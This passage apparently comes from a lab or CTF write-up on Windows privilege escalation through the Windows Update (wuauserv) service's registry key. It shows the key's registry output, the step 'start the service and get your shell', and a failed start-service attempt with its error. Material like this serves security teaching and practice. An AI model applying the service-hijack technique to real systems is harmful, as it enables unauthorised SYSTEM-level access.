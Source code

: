 ```
ServiceSidType      : 1
Start               : 3
SvcMemHardLimitInMB : 246
SvcMemMidLimitInMB  : 167
SvcMemSoftLimitInMB : 88
Type                : 32
PSPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentcontrolset\services\wuauserv
PSParentPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentcontrolset\services
PSChildName         : wuauserv
PSDrive             : HKLM
PSProvider          : Microsoft.PowerShell.Core\Registry
```

- Now, start the service and get your shell
```
PS HKLM:\SYSTEM\CurrentControlset\Services> start-service wuauserv
start-service wuauserv
start-service : Service 'Windows Update (wuauserv)' cannot be started due to the following error: Cannot start service 
wuauserv on computer '.'.
At line:1 char:1
+ start-service wuauserv
+ ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],  
   ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCommand
```

![](./images/17.png)